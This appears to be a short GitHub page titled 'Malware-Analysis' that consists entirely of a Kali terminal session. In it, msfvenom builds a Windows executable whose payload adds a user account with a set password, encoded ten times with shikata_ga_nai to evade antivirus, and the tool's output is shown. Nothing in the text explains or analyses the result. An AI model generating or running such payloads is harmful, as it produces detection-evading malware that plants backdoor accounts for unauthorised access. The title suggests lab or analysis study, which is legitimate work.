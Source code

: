 # Malware-Analysis

root@kali64:~# msfvenom -p windows/adduser user=testuser1 pass=Test@321 -e x86/shikata_ga_nai -i 10 -f exe -o ~/testadd10.exe  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  
[-] No arch selected, selecting arch: x86 from the payload  
Found 1 compatible encoders  
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai  
x86/shikata_ga_nai succeeded with size 303 (iteration=0)
x86/shikata_ga_nai succeeded with size 330 (iteration=1)
x86/shikata_ga_nai succeeded with size 357 (iteration=2)
x86/shikata_ga_nai succeeded with size 384 (iteration=3)
x86/shikata_ga_nai succeeded with size 411 (iteration=4)
x86/shikata_ga_nai succeeded with size 438 (iteration=5)
x86/shikata_ga_nai succeeded with size 465 (iteration=6)
x86/shikata_ga_nai succeeded with size 492 (iteration=7)
x86/shikata_ga_nai succeeded with size 519 (iteration=8)
x86/shikata_ga_nai succeeded with size 546 (iteration=9)
x86/shikata_ga_nai chosen with final size 546
Payload size: 546 bytes
Final size of exe file: 73802 bytes
Saved as: /root/testadd10.exe
root@kali64:~# 
